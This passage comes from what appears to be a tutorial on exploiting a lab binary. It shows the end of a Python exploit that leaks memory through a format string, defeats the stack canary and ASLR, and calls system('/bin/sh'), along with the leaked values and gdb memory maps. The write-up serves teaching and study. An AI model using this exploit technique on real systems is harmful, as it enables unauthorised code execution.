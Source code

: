 ```python
    leak = r.recvline()

    print '[+] Format string leak:\n [%s]\n' % leak.rsplit("\n")[0]

    libc_base = get_libc_base_address(leak)
    system_call = get_system_in_glibc(libc_base)
    bin_sh = get_bin_sh_in_glibc(libc_base)
    canary = get_canary_value(leak)

    payload = create_payload(canary, system_call, bin_sh)

    r.recvuntil("$> ")
    r.sendline(payload)

    r.interactive()


if __name__ == '__main__':
    main()
    sys.exit(0)

```

The exploit itself should be quite self explanatory, but let's quickly walk through it together.  
So first of all when launching the binary we wait for it to prompt us for the first input.  
When this happens we provide a bunch of format specifiers `%llx.` to get a leak from memory.  

> Recall: %llx. format string is a long long-sized integer

The leak will look something like this: 

	1.7f6c3501b790.a.0.7f6c35219700.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.7ffd002e786c.7f6c35019b78.7f6c3501b780.7f6c35244ca0.7f6c3501b780.1.ff000000000000.7f6c3501a620.0.7f6c3501a620.7f6c3501a6a4.7f6c3501a6a3.7ffdc2a905a0.7f6c34cd09e6.7f6c3501a620.0.0.7f6c34ccd439.7f6c3501a620.7f6c34cc4d94.0.5b9cf8225c7bc900.


It turned out that the 2nd leaked value is a random address within libc.  
Since we got that one we were able to calculate the base address of libc by looking up the libc mapping of the current process from within gdb.

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r-xp	/home/lab/Git/RE_binaries/0x00sec/ASLR/binaries/vuln_x64
0x00600000         0x00601000         r--p	/home/lab/Git/RE_binaries/0x00sec/ASLR/binaries/vuln_x64
0x00601000         0x00602000         rw-p	/home/lab/Git/RE_binaries/0x00sec/ASLR/binaries/vuln_x64
0x01d12000         0x01d33000         rw-p	[heap]
0x00007f6c34c55000 0x00007f6c34e15000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c34e15000 0x00007f6c35015000 ---p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c35015000 0x00007f6c35019000 r--p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c35019000 0x00007f6c3501b000 rw-p	/lib/x86_64-linux-gnu/libc-2.23.so
0x00007f6c3501b000 0x00007f6c3501f000 rw-p	mapped
0x00007f6c3501f000 0x00007f6c35045000 r-xp	/lib/x86_64-linux-gnu/ld-2.23.so
0x00007f6c35218000 0x00007f6c3521b000 rw-p	mapped
0x00007f6c35244000 0x00007f6c35245000 r--p	/lib/x86_64-linux-gnu/ld-2.23.so
```